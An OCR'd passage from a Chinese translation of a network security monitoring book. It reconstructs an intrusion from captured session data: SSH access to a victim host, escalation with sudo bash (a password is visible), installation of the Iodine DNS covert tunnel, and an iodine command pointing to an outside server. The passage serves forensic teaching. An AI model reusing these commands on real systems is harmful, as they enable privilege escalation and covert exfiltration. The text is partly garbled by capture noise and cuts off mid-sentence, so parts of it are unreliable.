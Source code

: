 .....4**ssh ubu32@10.0.0.99**

SRC: ..U...........2...........4**欢迎使用 Ubuntu 12.04.2 LTS** (GNU/Linux 3.5.0-25-generic i686) SRC:

SRC: * 文档：https://help.ubuntu.com/

SRC:

SRC: 0 个软件包可以更新。

SRC: 0 个更新是安全更新。

*列表 11-21: Ubuntu 连接到另一个受害者*

通过运行 sudo bash，如列表 11-22 所示，攻击者提升了

他获得了 root 权限。

DST: ...v............core_channel_write....)....29459743353766825927232004106327........2......

.....4sudo bash

DST: ...........

DST:

SRC: .

SRC: ..d............core_channel_write....)....29459743353766825927232004106327............

SRC: ............

SRC: ...w...........2...........4**sudo bash**

SRC: ....................core_channel_write....)....UJUHVDEWIYIKWPCUMRTWODZUIDRXEMKG.

SRC: .

SRC: ..............2.......#...4[sudo] ubu32 的密码：....................core_channel_

写入....)....JTCKKYYZSXEFTWGOEWDZKWHCOLJYUWZG.

DST: ...v............core_channel_write....)....56755805437825017718244048581240........2......

.....4wonderubu

*列表 11-22: 使用 sudo bash 提升权限*

***安装隐蔽隧道***

作为 root，攻击者现在通过 dpkg 安装 Iodine DNS 隐蔽隧道工具，

dpkg -i iodine_0.6.0~rc1-7_i386.deb，如列表 11-23 所示\。

DST: ................core_channel_write....)....64642638366982677090891088802167........2......

.,...4**dpkg -i iodine_0.6.0~rc1-7_i386.deb**

*列表 11-23: 安装 Iodine DNS 隐蔽隧道工具*

客户端侧妥协 **257**

[www.it-ebooks.info](http://www.it-ebooks.info/)

接下来，我们看到攻击者使用命令 iodine -r 203.0.113.8 practicalnsm.com 启动 Iodine 工具，如列表 11-24 所示。他正在启动 Iodine 客户端，并将其指向位于 203.0.113.8 的服务器，通过 DNS 流量
